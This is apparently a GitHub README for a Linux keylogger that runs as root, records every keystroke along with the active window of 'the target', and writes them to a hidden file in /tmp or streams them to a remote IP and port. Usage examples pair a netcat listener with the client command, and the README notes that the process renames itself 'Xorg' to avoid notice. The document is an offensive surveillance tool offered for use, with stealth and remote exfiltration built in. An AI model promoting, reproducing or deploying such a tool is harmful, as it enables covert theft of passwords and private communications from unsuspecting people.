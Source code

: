 # Simple_Local&Remote_Keylogger

Simple keylogger that runs on Linux.<br>
It must be run as root.

__________________________________________________________________________
Usage: #./slrk [OPTIONS]<br>
<br>
OPTIONS:<br>
	-d \<input-device\>:  if not specified, the default device is '/dev/input/by-path/***kbd'<br>
	-o \<output-file\>:   it can be used only if '-m remote' option is not specified. The default output file is '/tmp/.logger.txt'<br>
	-m remote -a \<IP-ADDR\> -p \<PORT\>: it sends all the keystrokes on the remote server located at \<IP-ADDR:PORT\><br>
<br>
EXAMPLE:<br><br>
Server$ nc -lvp 8888 > logger.txt<br>
Client#./slrk -m remote -a 127.0.0.1 -p 8888<br>

--- It works also with ipv6--- <br><br>
Server$ nc -6 -lvp 8888 > logger.txt<br>
Client#./slrk -m remote -a ::1 -p 8888
__________________________________________________________________________
<br>(It shows the active window on which the target is writing)
<br>(Keys are mapped on English keyboard)<br>
(Process name is renamed as "Xorg")
